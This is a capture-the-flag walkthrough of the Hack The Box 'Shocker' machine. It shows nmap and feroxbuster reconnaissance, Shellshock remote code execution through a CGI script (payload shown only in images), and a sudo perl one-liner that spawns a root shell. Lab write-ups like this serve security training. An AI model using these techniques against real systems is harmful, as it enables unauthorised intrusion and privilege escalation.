 # Shocker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:22 EDT
Nmap scan report for 10.129.85.146
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-
```

Port 80 is open.

### Shellshock

When the webpage is visited, all we see is this:

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

I did a `feroxbuster` script on the website.&#x20;

```
$ feroxbuster -u http://10.129.85.146 -f -n      

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.85.146
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.85.146/
403      GET       11l       32w      296c http://10.129.85.146/cgi-bin/
403      GET       11l       32w      294c http://10.129.85.146/icons/
403      GET       11l       32w      302c http://10.129.85.146/server-status/
```

I continued fuzzing and found a `user.sh` file. When downloaded, this is the response:

```http
HTTP/1.1 200 OK
Date: Wed, 03 May 2023 16:27:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 119

Content-Type: text/plain

Just an uptime test script

 12:27:22 up 40 min,  0 users,  load average: 0.58, 0.31, 0.11
```

The Content-Type was unique and I've never seen that before. A quick Google search on exploits regarding it led to Shellshock.&#x20;

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

This software bugs allows us to have RCE on the website because of how environments variables are handled poorly in some websites. We can test it out by sending requests to the `user.sh` file and seeing if any bash commands get executed.&#x20;

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

So it does work. We can replace the `ping` command with a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (155) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Perl

When checking `sudo` permissions, we see this:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Based on GTFOBins, we just need to execute this to get a `root` shell.

{% code overflow="wrap" %}
```bash
sudo perl -e 'exec "/bin/bash";'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (188) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
